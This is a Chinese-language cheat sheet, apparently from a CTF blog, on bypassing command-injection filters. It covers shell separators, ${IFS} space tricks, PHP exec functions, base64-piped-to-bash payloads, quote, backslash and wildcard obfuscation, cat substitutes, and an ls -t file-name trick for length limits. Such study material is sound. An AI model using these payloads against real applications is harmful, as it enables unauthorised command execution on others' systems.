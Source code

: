 ﻿---
title: 命令执行绕过小技巧
---
## 命令执行绕过小技巧
# 管道符
windows 下
>  |    直接执行后面的语句

>||  如果前面命令是错的那么就执行后面的语句，否则只执行前面的语句

>&  前面和后面命令都要执行，无论前面真假

>&&   如果前面为假，后面的命令也不执行，如果前面为真则执行两条命令

<!--more-->
linux下
>; 前面和后面命令都要执行，无论前面真假

>| 直接执行后面的语句

>|| 如果前面命令是错的那么就执行后面的语句，否则只执行前面的语句

>& 前面和后面命令都要执行，无论前面真假

>&& 如果前面为假，后面的命令也不执行，如果前面为真则执行两条命令
# 空格绕过
>    <  >   <> 重定向符
%09(需要php环境)
${IFS}
$IFS$9
{cat,flag.php} //用逗号实现了空格功能
%20
%09



# 命令执行函数
>system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
反引号 同shell_exec() 

# 黑名单绕过
拼接
>a=c;b=at;c=fl;d=ag;$a$b $c$d

base64编码
>echo "Y2F0IGZsYWc=" | base64 -d
echo "Y2F0IGZsYWc=" | base64 -d | bash (在bash被过滤的情况下可尝试sh)

单引号，双引号
>c""at  fl''ag

反斜线
>c\at fl\ag

正则 (假设/bin/cat: test: 是一个目录)
>/???/?[a][t] ?''?''?''?''
/???/?at ????
/???/?[a]''[t] ?''?''?''?''

$1 $2等和 $@
>$# 是传给脚本的参数个数
$0 是脚本本身的名字
$1 是传递给该shell脚本的第一个参数
$2 是传递给该shell脚本的第二个参数
$@ 是传给脚本的所有参数的列表
$* 是以一个单字符串显示所有向脚本传递的参数，与位置变量不同，参数可超过9个
$$ 是脚本运行的当前进程ID号
$? 是显示最后命令的退出状态，0表示没有错误，其他表示有错误



# cat被过滤

>more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
grep
1、在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令：
grep test *file
strings

![](https://img-blog.csdnimg.cn/20210117202310335.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)
![](https://img-blog.csdnimg.cn/20210117202321964.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)

# 内敛执行

>cat $ IFS $ 9（反单引号`）ls(反单引号 )  
cat $ IFS$ 9 $(ls)

(内联，就是将``或$()内命令的输出作为输入执行)

# 利用ls -t和>以及换行符绕过长度限制执行命令(文件构造绕过)

>root@kali:~/桌面# echo "flag{hahaha}" > flag.txt
root@kali:~/桌面# touch "ag"
root@kali:~/桌面# touch "fl\\"
root@kali:~/桌面# touch "t \\"
root@kali:~/桌面# touch "ca\\"
root@kali:~/桌面# ls -t
'ca\'  't \'  'fl\'   ag   flag
root@kali:~/桌面# ls -t >a     #将 ls -t 内容写入到a文件中
root@kali:~/桌面# sh a
a: 1: a: not found
flag{hahaha}
a: 6: flag.txt: not found

>\ 是指换行
ls  -t 将文件按时间排序输出
sh 命令可以从一个文件中读取命令来执行

